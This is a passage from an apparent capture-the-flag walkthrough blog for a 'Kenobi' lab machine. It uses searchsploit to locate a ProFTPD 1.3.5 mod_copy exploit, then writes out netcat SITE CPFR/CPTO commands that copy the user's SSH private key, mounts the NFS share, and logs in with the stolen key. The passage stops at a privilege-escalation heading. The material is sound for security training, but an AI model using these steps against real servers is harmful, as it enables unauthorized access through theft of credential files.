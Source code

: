 ![](https://blog.razrsec.uk/content/images/2020/05/image-8.png)

_Searchsploit_ is a command-line tool for [exploit-db.com](https://www.exploit-db.com/), which we can use to find exploits for a particular software version:

```
searchsploit proftpd 1.3.5
```

![](https://blog.razrsec.uk/content/images/2020/05/image-9.png)

The output shows an exploit for ProFTPD's _[mod_copy](http://www.proftpd.org/docs/contrib/mod_copy.html)_ module. This module will allow us to use it's SITE CPFR and SITE CPTO commands to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know from the _log.txt_ file that the FTP service is running as the Kenobi user and an SSH key is generated for that user. We also know that we have access to the _/var_ directory, which we can mount on our system.

Kenobi's private key can be copied to the _/var/tmp_ directory by running:

```
nc 10.10.245.98 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![](https://blog.razrsec.uk/content/images/2020/05/image-10.png)

The _/var_ directory can then be mounted to our machine:

```
mkdir /mnt/kenobiNFS
mount 10.10.245.98:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

![](https://blog.razrsec.uk/content/images/2020/05/image-11.png)

Now that we have a network mount on our machine we can obtain the private key which can be used to login to Kenobi's account:

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
```

```
ssh -i id_rsa kenobi@10.10.245.98
```

![](https://blog.razrsec.uk/content/images/2020/05/image-12.png)

Once logged in as Kenobi, the user flag can be obtained from the _/home/kenobi/user.txt_ file (flag not shown so you can grab this yourself).

# Privilege Escalation
